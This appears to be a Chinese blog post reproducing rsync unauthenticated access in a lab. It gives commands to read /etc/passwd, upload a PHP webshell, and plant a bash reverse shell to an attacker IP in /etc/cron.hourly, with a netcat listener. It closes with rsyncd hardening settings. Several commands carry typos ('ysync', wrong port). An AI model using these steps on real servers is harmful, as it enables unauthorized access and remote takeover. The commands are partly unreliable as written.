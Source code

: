 ```yaml
---
title: Rsync未授权访问复现
date: 2020-05-30 15:42:36
categories: 漏洞复现
tags: 未授权访问
---
```


#### Rsync

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听**873**端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件,甚至可以反弹shell。

<!--more-->

#### 未授权访问读取文件

读取文件

`rsync ysync://url:端口/目录`

![](http://qn.laohuan.xin/2020-05-29_16-40-45.png)

下载目标的passwd文件

`rsync rsync://url:80/src/etc/passwd ./`

![](http://qn.laohuan.xin/2020-05-29_16-45-44.png)

查看目标主机用户

![](http://qn.laohuan.xin/2020-05-29_16-47-07.png)

#### 上传一句话木马

`ysync -av shell.php rsync://url:端口/src`

![](http://qn.laohuan.xin/2020-05-29_17-26-08.png)

可以看到shell已经传到目标主机上

![](http://qn.laohuan.xin/2020-05-29_15-23-36.png)

#### 反弹shell

crontab

Linux crontab是用来定期执行程序的命令。

当安装完成操作系统之后，默认便会启动此任务调度命令。

crond 命令每分锺会定期检查是否有要执行的工作，如果有要执行的工作便会自动执行该工作

下载并查看目标计划任务

`rsync ysync://url:端口/src/etc/crontab ./`

![](http://qn.laohuan.xin/2020-05-29_21-27-30.png)

红框内容表示每小时的第17分钟将会执行如下命令

`run-parts --report /etc/cron.hourly`

此文件下的东西，每个小时的第17分钟都将被执行一遍，我们将shell写到这个文件下，再另一个服务器设置好监听，稍加等待便能获得shell

上传反弹shell

准备我们的shell文件，shell内容如下

```bash
#!/bin/bash 
/bin/bash -i >& /dev/tcp/x.x.x.x/3950 0>&1
```

1. x.x.x.x为攻击机的IP地址
2. 3950为攻击机的监听端口

![](http://qn.laohuan.xin/2020-05-29_21-30-53.png)

上传shell

`rsync -av shell rsync://url:端口/src/etc/cron.hourly`

![](http://qn.laohuan.xin/2020-05-29_21-32-40.png)

在目标机的/etc/cron.hourly/下能看到上传的shell文件

![](http://qn.laohuan.xin/2020-05-29-41.png)

#### 反弹

在攻击设置好监听

`nc -nvlp 3950`

监听端口需和反弹shell里所一致

![](http://qn.laohuan.xin/2020-05-29_21-33-58.png)

实验里可根据具体时间修改靶机的/etc/crontab的文件，快速反弹shell，而实际环境就慢慢的等到每个小时的第17分钟吧

稍加等待，便能获得shell

![](http://qn.laohuan.xin/2020-05-29_15-18-02.png)

#### 防御

1.编辑配置文件

`nano /etc/rsync.conf`

2.写入代码

```
hosts allow xxx.xxx.xxx.xxx #限制访问IP
auth users = rsync           #认证的用户
secrets file = /etc/rsyncd.passwd
```

3.新增文件

`vim /etc/rsyncd.passwd`

写入用户密码

`ysync :password`

#### 参考链接

<http://blog.csdn.net/qq_36374896/article/details/84112341/>

<http://github.com/vulhub/vulhub/tree/master/rsync/common/>

